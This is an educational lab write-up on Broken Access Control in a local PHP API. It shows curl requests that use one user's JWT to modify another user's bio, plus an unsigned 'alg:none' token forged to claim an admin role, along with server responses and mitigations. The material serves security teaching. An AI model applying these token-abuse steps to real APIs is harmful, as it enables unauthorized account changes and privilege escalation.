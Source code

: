 
# Lab 0x05: Broken Access Control 📜👾

## 🔓 Understanding Broken Access Control

### 🎯 Introduction to Broken Access Control
Broken Access Control (BAC) occurs when restrictions on what authenticated users are allowed to do are not properly enforced. Attackers can exploit these flaws to access unauthorized functionality or data.

---

## 🌐 API Index Overview
Here are the API endpoints provided in the lab:

1️⃣ **Login Endpoint**
- **Method:** POST  
- **Endpoint:** `/login.php`
- **Command:**  
  ```bash
  curl -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "password123"}' http://localhost/labs/api/login.php
  ```

2️⃣ **Account Information Endpoint**
- **Method:** GET  
- **Endpoint:** `/account.php`
- **Command:**  
  ```bash
  curl -X GET "http://localhost/labs/api/account.php?token=JWT"
  ```

3️⃣ **Update Account Endpoint**
- **Method:** PUT  
- **Endpoint:** `/account.php`
- **Command:**  
  ```bash
  curl -X PUT -H "Content-Type: application/json" -d '{"token": "JWT", "username":"username", "bio": "New bio information."}' http://localhost/labs/api/account.php
  ```

---

## 🛠️ Exploiting Broken Access Control

### 🧪 Test Scenario
1. **User 1 (Jeremy):** Login and receive JWT token.  
2. **User 2 (Jessamy):** Login and attempt to use Jeremy's token to update Jessamy's bio.

---

### 📝 Step-by-Step Exploitation

1️⃣ **Login as Jeremy**
```bash
curl -X POST -H "Content-Type: application/json" -d '{"username": "jeremy", "password": "cheesecake"}' http://localhost/labs/api/login.php
```
- **Response:** Successful login with a JWT token for Jeremy:  
  `{"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."}`

2️⃣ **Attempt to Update Jessamy’s Bio Using Jeremy's Token**
```bash
curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", "username":"jessamy", "bio": "BFLA bio."}' http://localhost/labs/api/account.php
```
- **Outcome:** The bio update succeeds due to broken access control:  
  `{"status":"success","message":"Bio updated successfully"}`

3️⃣ **Verify the Update**
```bash
curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
```
- **Response:**  
  `{"username":"jessamy","role":"admin","bio":"BFLA bio."}`

---

## 🚨 Analysis of Broken Access Control

### Problem:
The API improperly validates JWT tokens, allowing one user’s token to perform actions on behalf of another user.

### Implications:
This vulnerability could lead to unauthorized actions, data leaks, or account takeovers.

---

## 🛡️ Mitigation Strategies
1. **Validate User Tokens:**  
   Ensure that every sensitive action validates that the user’s token matches the intended user's ID stored within the token.
2. **Regular Audits:**  
   Perform security audits on API endpoints to ensure access controls are enforced.

---

## 📚 Conclusion
This scenario highlights the importance of robust access control systems in protecting user data and preventing unauthorized actions. Always enforce and verify permissions rigorously.
